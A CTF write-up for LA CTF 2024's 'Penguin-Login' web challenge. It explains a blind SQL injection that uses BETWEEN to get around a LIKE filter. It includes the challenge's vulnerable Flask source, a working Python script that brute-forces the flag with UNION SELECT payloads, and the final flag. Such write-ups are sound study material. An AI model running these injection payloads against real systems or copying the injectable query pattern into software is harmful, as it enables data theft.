 ```yaml
---
title: Penguin-Login
date: 2024-02-18T20:05:34+02:00
description: Writeup for Penguin-Login [LA CTF 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf

## Intuition

The website is really basic, it only does one request which is vulnerable to SQL injections.

![login](/images/la_ctf_2024/penguin.png)

![test_sqli](/images/la_ctf_2024/penguin_test.png)

## Solution

By looking in the source code, I notice that the original query is `"SELECT * FROM penguins WHERE name = '%s'"` but the
tricky part is that a whitelist of characters is used to filter the input. I can not use the word `LIKE` and I can use only
`a-zA-Z0-9` and `{_}` characters.

```python
with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()


@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400
```

The server does not send the query back, it only sends a message if the query was successful or not. Therefore I need to build an 
error based SQLi. I can use the `BETWEEN` query in order to simulate the `LIKE` query. The following payload is used to guess one by one character of the flag.

![payload](/images/la_ctf_2024/payload_penguins.png)

This payload is an example where I already know the beginning of the flag (flag{tes) and I want to find out the next character. I use the `BETWEEN` query to check if the character I will inject in the first position of the flag is correct or not. If the server returns `We found a penguin!!!!!` then the character is good otherwise it is not. 
Note that I had `z` at the end of the second part of the `BETWEEN` to check from `a` to `z` and if it is a number then I will add `9` to check from `0` to `9`.
In order to be faster I can use `fuff` to fuzz every character by using a wordlist.

![payload](/images/la_ctf_2024/fuff_penguins.png)

or even do it by using a script (thanks to [MettleSphee](https://github.com/MettleSphee))

```python
import requests
url = "https://penguin.chall.lac.tf/submit"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
found=0
alphabet = '0123456789qwertyuiopasdfghjklzxcvbnm}'
found_string="lactf{90stgr353sn0tl7k3th30th3rdbs0w"
#print(brute[len(brute)-1])
while found_string[len(found_string)-1] != "}":
	if (found == 1):
		break
	for brute in alphabet:
		payload = 'username=\'%20UNION%20SELECT%20name%20from%20penguins%20WHERE%20NAME%20BETWEEN%20\''+found_string+brute+'\'%20AND%20\''+found_string+brute+'z'
		response = requests.request("POST", url, headers=headers, data=payload)
		match response.status_code:
			case 201:
				#print("not found yet")
				if (brute=="}"):
					found = 1
					break
			case 200:
				found_string = found_string + brute
				print(found_string)
				if (brute=="}"):
					found = 1
					break
print("Found! "+found_string)
```

![script](/images/la_ctf_2024/script_penguins.png)

For some reason the flag in the exploit does not contain any `_` character but the flag we have to
submit contains it between the different words which is absolutely demonic. I had a 
lot of trouble to understand the meaning of the flag and put the `_` at the right
place 😡, like, seriously am I the only one who got troubles to understand this `90stgr353sn0tl7k3th30th3rdbs0w0` ???

### Flag

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

